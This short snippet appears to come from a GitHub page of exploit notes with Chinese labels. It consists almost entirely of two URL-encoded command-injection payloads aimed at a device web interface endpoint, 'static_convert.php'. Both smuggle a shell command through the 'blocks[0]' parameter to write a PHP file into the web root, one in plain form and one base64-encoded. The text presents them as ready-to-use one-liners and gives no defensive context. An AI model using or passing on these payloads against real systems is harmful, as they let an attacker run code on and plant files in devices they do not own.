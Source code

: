 一句话
`/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20echo%20%27%3C?php%20phpinfo();?%3E%27%20%3E%3E%20/var/www/html/1.php%0a`
Base64 版
`/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20echo%20PD9waHAgcGhwaW5mbygpOz8+%20%7Cbase64%20-d%20%3E%3E%20/var/www/html/1.php%0a`
